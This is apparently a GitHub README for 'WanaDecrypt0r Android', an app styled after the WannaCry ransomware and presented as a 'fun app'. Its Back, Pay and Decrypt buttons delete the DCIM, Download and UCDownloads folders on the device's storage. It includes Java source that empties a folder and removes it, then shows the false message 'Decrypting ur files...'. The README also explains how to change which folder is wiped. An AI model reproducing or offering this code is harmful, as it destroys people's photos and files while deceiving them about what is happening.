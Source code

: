 #WanaDecrypt0r Android#
__Application Info :__

App Name : wanaDecrypt0r android

Developer : Wahyu Hidayat

----

__What is wanaDecrypt0r android ?__

wanaDecrypt0r android is a fun app with simple command to remove some folder on sdcard.

----

__What main funchtion of this app ?__

This is a main funchtion of wanaDecrypt0r android :

```
Back Pressed = Delete DCIM folder on sdcard
Pay btn pressed = Delete Download folder on sdcard
Decrypt btn pressed = Delete UCDownloads folder
```

You can change the folder what should deleted with edit the MainActivity.java of this source app example :

```
	// Decrypt button action
   // Change UCDownload folder if want to change path deleted
	public void dec(View v){
		File dec=new File(android.os.Environment.getExternalStorageDirectory()+"/UCDownloads");
		if (dec.isDirectory()){
			String [] childern = dec.list();
			for (int i=0;i<childern.length;i++){
				new File(dec, childern[i]).delete();
			}
		}
		dec.delete();
		Snackbar.make(findViewById(R.id.dec),"Decrypting ur files...",Snackbar.LENGTH_LONG).show();
	}
```

----

__Screenshots :__

![alt](ss1.png)

![alt](ss2.png)
